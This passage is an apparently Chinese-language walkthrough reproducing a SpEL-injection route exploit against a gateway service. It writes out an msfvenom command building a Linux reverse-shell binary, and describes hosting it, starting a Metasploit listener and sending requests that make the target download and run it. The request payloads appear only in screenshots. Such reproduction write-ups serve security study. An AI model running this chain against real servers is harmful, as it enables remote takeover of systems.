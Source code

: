   

 **打开后界面是这样的**  
---  
  
  

![](https://gitee.com/fuli009/images/raw/master/public/20220303143707.png)

  

 **接下来开始复现吧，先做好直接上线的准备。因为环境是linux，所以用下面的命令生成个码子，记好下面的payload，下面要用到。**  
---  
  
  

  * 

    
    
     msfvenom -p linux/x86/shell_reverse_tcp LHOST=x.x.x.x LPORT=9911 -f elf >reverse.elf

  

 **然后用python启个服务把码子挂在上面，对，就像下面操作那样**  
---  
  
  

![](https://gitee.com/fuli009/images/raw/master/public/20220303143708.png)

  

 **然后配置好msf，payload就设置你生成木马的那个payload，大家应该都会，我就为了多贴个图哈哈哈哈，记得配置好监听起来。**  
---  
  
  

![](https://gitee.com/fuli009/images/raw/master/public/20220303143709.png)

![](https://gitee.com/fuli009/images/raw/master/public/20220303143711.png)

  

 **然后发送如下数据包就可以添加一个包含恶意SpEL表达式的路由，这里我让payload去下载我的码子，还有一个点，我new
string去掉了，不然执行不起来，payload我就不贴了大家可以看参考链接。**  
---  
  
  

![](https://gitee.com/fuli009/images/raw/master/public/20220303143713.png)

  

 **跟以前的漏洞一样，这里需要刷新去触发，也可以说是去应用刚添加的路由，这个数据包会触发SpEL表达式的执行。**  
---  
  
  

![](https://gitee.com/fuli009/images/raw/master/public/20220303143715.png)

  

 **发送下面数据包即可查看执行结果，我这里是下载文件的命令所以没有显示出来，这里显示的是我上一次执行命令的结果。**  
---  
  